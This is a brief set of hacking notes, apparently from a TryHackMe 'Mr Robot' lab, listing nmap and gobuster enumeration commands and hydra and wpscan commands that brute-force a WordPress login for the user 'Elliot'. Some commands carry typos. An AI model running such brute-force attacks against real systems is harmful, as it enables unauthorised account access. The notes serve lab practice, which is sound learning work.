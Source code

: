 ##We are going to do basic of Hacking

#Enumeration
1. nmap -Sc -sV <`ip address>
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

#Enumeration
1. gobuster dir -u <`ip address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

BruteForcing

1. hydra -L fsocity.txt -p mypassword 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

2. hydra -l Elliot -P fsocity.txt 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:The password you entered for the username Elliot is incorrect."

3. wpscan --url http://10.10.89.214 -t 50 -U elliot -P /home/kali/Documents/tryhackme/mr-robot/fsociety.txt